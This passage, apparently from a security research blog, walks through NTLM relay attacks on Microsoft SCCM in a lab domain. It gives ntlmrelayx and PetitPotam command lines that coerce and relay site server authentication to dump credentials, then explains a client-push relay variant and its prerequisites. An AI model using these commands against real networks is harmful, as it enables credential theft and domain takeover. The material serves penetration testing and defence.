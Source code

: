 Below is a graphic visualizing the attack technique:

<p align="center">
  <img src="https://logan-goins.com/assets/img/sccm/Attacker.png" />
</p>

With a valid vulnerable site system in mind, for example the site database server `mssql01.lab.lan`, set up a relay using `ntlmrelayx.py`:

```
ntlmrelayx.py -t mssql01.lab.lan -smb2support
```

![image](https://logan-goins.com/assets/img/sccm/elevate-1-relay-start.png)

Next utilize a tool such as PetitPotam to coerce valid Net-NTLMv2 authentication from the site server, in this case `sccm01.lab.lan`:

```
python3 PetitPotam.py 192.168.1.50 sccm01.lab.lan -u jdoe -p P@ssw0rd
```

![image](https://logan-goins.com/assets/img/sccm/elevate-1-coerce.png)

Looking back at `ntlmrelayx.py`, we can see that it has automatically relayed the authentication to the target device and dumped credentials due to its administrative permissions on the host.

![image](https://logan-goins.com/assets/img/sccm/elevate-1-dump-creds.png)

## ELEVATE-2 - NTLM Relay with Automatic Client Push Authentication

When side-wide automatic client push installation is enabled, the site server will automatically attempt to install client agents on devices registered in the site after approval. If an attacker is able to trick the site server into recognizing a new client device with an attacker owned address, they would be able to relay authentication from the site server to systems without SMB signing for arbitrary takeover. Note that the authentication obtained from the site server attempting to install an agent on the client device would be the official site server installation account. With this non-default added account being required to have local administrator privileges on each site system, it is common that this non-default site server installation account not only has administrative permissions on site systems but could be a member of a high privilege group such as `Domain Admins`. This would imply that if an attacker is able to trick the site server into performing client installation to a controller address, they could gain administrative access to every device without SMB signing in the domain, whether they are in the site or not.

Unlike `ELEVATE-1`, with its requirements being entirely default, `ELEVATE-2` has a large number of non-default requirements, although still very common.

These include:

1. Automatic site-wide client push installation enabled
2. Automatic site device approval
3. Fallback authentication to NTLM

While all three of these options are non-default and are required to be manually configured by a system administrator for this attack to work, most of these options provide ease of use for system administrators attempting to manage large-scale SCCM device infrastructure. For example, automatic client push installation ensures that devices recognized by the site server don't have to be manually selected for client push installation. Automatic site device approval ensures that system administrators do not have to manually approve each device making automated requests to join a site. And finally fallback authentication ensures greater compatibility with older, non Kerberos compatible windows device which still run rampant in corporate environments, by allowing NTLM authentication to be used when Kerberos fails. So while all three of these options are entirely manually implemented, it makes perfect sense why so many SCCM admins configure them to make their job significantly easier and less manual in the long run.
